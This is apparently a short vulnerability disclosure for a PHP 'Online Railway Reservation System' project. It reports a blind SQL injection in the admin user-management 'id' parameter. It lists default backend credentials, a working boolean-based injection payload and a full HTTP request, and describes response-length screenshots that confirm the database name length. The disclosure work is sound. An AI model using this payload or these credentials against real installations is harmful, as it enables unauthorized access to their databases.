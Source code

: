 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/admin/?page=user/manage_user&id=

Vulnerability location: /orrs/admin/?page=user/manage_user&id=, id

Current database name: orrs_db,length is 7

[+] Payload:  /orrs/admin/?page=user/manage_user&id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /orrs/admin/?page=user/manage_user&id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close
```

When length (database ()) = 6, Content-Length: 26098
![image](https://user-images.githubusercontent.com/54017627/172332542-14c795da-9959-4ea8-b16f-62a933c9d7f9.png)

![image](https://user-images.githubusercontent.com/54017627/172332234-6ebb24be-ce20-41c6-96f4-ccbd1cde2494.png)

When length (database ()) = 7, Content-Length: 25858
![image](https://user-images.githubusercontent.com/54017627/172332503-22a9da4f-ca29-4e63-b752-4b330fc284a2.png)

![image](https://user-images.githubusercontent.com/54017627/172332196-46613a69-04be-4ffb-a26c-2cf9ee9669e1.png)
